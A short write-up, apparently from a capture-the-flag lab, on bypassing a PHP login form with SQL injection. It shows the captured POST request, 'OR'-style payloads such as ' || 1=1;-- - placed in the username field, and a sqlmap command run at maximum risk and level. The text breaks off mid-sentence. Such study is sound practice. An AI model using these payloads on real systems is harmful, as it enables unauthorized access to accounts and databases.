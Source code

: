 ```javascript

```

```http
POST /functions.php HTTP/1.1

Host: ...
User-Agent: Mozilla/5.0 (Windows NT 10.0; rv:128.0) Gecko/20100101 Firefox/128.0
Accept: application/json, text/javascript, */*; q=0.01
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate, br
Content-Type: application/x-www-form-urlencoded; charset=UTF-8
X-Requested-With: XMLHttpRequest
Content-Length: 57
Origin: http://...
Connection: keep-alive
Referer: http://10.10.244.88/login.php?mail=t&pass=t
Cookie: PHPSESSID=oqttvasr6crs86ila4mi3kbjf6
Priority: u=0

username=1&password=1&function=login
```

**Possible SQL query:**

```sql
SELECT * FROM table WHERE username = x AND password = x 
```

Injection to `username` POST field:

```sql
'||1=1;-- //there is an explicit space right after the comment (--)
||1=1;-- - //clearer
```

* This works with space in between the items too:&#x20;

```sql
' || 1=1;-- -
```

`' || 1=1; --`&#x20;

```sql
SELECT * FROM table WHERE username = ''||1=1'-- AND password = '1' 
```

**Further learning**

* To explore what other injection methods can be used, I utilized Sqlmap:&#x20;

> `login.txt` contains the HTTP POST request from above

```sh
$ sqlmap -r login.txt --risk=3 --level=5
```

I found that the following payload to the username field works too:
